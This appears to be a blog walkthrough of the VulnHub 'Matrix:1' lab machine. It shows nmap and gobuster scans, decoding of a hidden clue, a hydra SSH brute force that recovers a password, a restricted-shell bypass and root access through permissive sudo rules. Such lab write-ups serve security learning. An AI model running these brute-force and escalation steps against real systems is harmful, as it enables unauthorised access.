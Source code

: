 ```yaml
---
layout: post
title:  "Matrix:1 Vulnhub Walkthrough"
date:   2020-09-25 15:00:00 +0530
categories: VulnHub CTF
---
```

Matrix:1 is a machine in which I used Enumeration to obtain shell access and then exploited the misconfigured sudo permissions to get root Access.

## Scanning
As always, I started scanning with Nmap

```
root@kali:/home/kali# nmap -sC -sV 192.168.198.139
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-25 00:30 EDT
Nmap scan report for 192.168.198.139
Host is up (0.000096s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:8b:c7:7b:48:db:db:0c:4b:68:69:80:7b:12:4e:49 (RSA)
|   256 49:6c:23:38:fb:79:cb:e0:b3:fe:b2:f4:32:a2:70:8e (ECDSA)
|_  256 53:27:6f:04:ed:d1:e7:81:fb:00:98:54:e6:00:84:4a (ED25519)
80/tcp    open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
|_http-title: Welcome in Matrix
31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-title: Welcome in Matrix
MAC Address: 00:0C:29:43:C6:92 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.96 seconds
```
Interesting two http services!
## Web Enumeration
Then I enumerated directories and files using gobuster on both services but there is no useful information

```
root@kali:/home/kali# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u 192.168.198.139 -x php,html,json,py,matrix
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://192.168.198.139
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     matrix,php,html,json,py
[+] Timeout:        10s
===============================================================
2020/09/25 00:50:40 Starting gobuster
===============================================================
/index.html (Status: 200)
/assets (Status: 301)
/80.py (Status: 200)
[ERROR] 2020/09/25 00:51:41 [!] Get http://192.168.198.139/page22.php: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)                                                     
[ERROR] 2020/09/25 00:59:13 [!] Get http://192.168.198.139/35921.php: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)                                                      
[ERROR] 2020/09/25 01:00:48 [!] Get http://192.168.198.139/helpweb.html: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)                                                   
[ERROR] 2020/09/25 01:02:08 [!] Get http://192.168.198.139/151871_1: net/http: request canceled (Client.Timeout exceeded while awaiting headers)                                                                                    
[ERROR] 2020/09/25 01:02:09 [!] Get http://192.168.198.139/lang_ko.py: net/http: request canceled (Client.Timeout exceeded while awaiting headers)                                                                                  
[ERROR] 2020/09/25 01:02:09 [!] Get http://192.168.198.139/28672.json: net/http: request canceled (Client.Timeout exceeded while awaiting headers)                                                                                  
[ERROR] 2020/09/25 01:02:09 [!] Get http://192.168.198.139/inalambrico.py: net/http: request canceled (Client.Timeout exceeded while awaiting headers)                                                                              
[ERROR] 2020/09/25 01:07:53 [!] Get http://192.168.198.139/gisabm.php: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers)                                                     
===============================================================
2020/09/25 01:14:21 Finished                                                                                      
===============================================================

```
Nothing really important here.
## Inspecting Element
So, I started digging in the http services in port 80 and 3117. I found a base64 encoded text while inspecting element on port 31337.

![Username](/assets/machines/vulnhub/matrix/1.png)

## Cracking

After decoding

![Username](/assets/machines/vulnhub/matrix/2.png)

so I visted http://192.168.198.139:1337/Cypher.matrix , a filed was downloaded which contained this strange ciphertext

![Username](/assets/machines/vulnhub/matrix/3.png)

I used online crypto Identifier and the text was identified as Brainfuck Endcoding

![Username](/assets/machines/vulnhub/matrix/4.png)

So I used another online tool to decode the text

![Username](/assets/machines/vulnhub/matrix/5.png)

The text contains our password with missing two letters so I used an online combination
maker and prefix adder to make my wordlist
![Username](/assets/machines/vulnhub/matrix/6.png)

Then I used hydra to bruteforce the ssh password

```
hydra -f -l guest -P Downloads/output.txt ssh://192.168.198.139
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-25 01:13:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1296 login tries (l:1/p:1296), ~81 tries per task
[DATA] attacking ssh://192.168.198.139:22/

[STATUS] 178.00 tries/min, 178 tries in 00:01h, 1120 to do in 00:07h, 16 active
[STATUS] 166.00 tries/min, 498 tries in 00:03h, 800 to do in 00:05h, 16 active
[STATUS] 153.29 tries/min, 1073 tries in 00:07h, 225 to do in 00:02h, 16 active
[22][ssh] host: 192.168.198.139   login: guest   password: k1ll0r7n
[STATUS] attack finished for 192.168.198.139 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-25 01:21:21
```

## Privilege Escalation
When I sshed to the user guest, it gave me a restricted shell so I bypassed the restriction by using this command

```
root@kali:/home/kali# ssh guest@192.168.198.139 -t bash

```

I ran diffreent Enumeration scripts and found an intersting sudo privilege which allows us to run all commands

```
guest@porteus:/tmp$ sudo -l
User guest may run the following commands on porteus:
    (ALL) ALL
    (root) NOPASSWD: /usr/lib64/xfce4/session/xfsm-shutdown-helper
    (trinity) NOPASSWD: /bin/cp

```

So

```
guest@porteus:/tmp$ sudo su
Password: 
root@porteus:/tmp# cat /root/flag.txt 
   _,-.                                                             
,-'  _|                  EVER REWIND OVER AND OVER AGAIN THROUGH THE
|_,-O__`-._              INITIAL AGENT SMITH/NEO INTERROGATION SCENE
|`-._\`.__ `_.           IN THE MATRIX AND BEAT OFF                 
|`-._`-.\,-'_|  _,-'.                                               
     `-.|.-' | |`.-'|_     WHAT                                     
        |      |_|,-'_`.                                            
              |-._,-'  |     NO, ME NEITHER                         
         jrei | |    _,'                                            
              '-|_,-'          IT'S JUST A HYPOTHETICAL QUESTION    

```
and voila here is the root privilege!





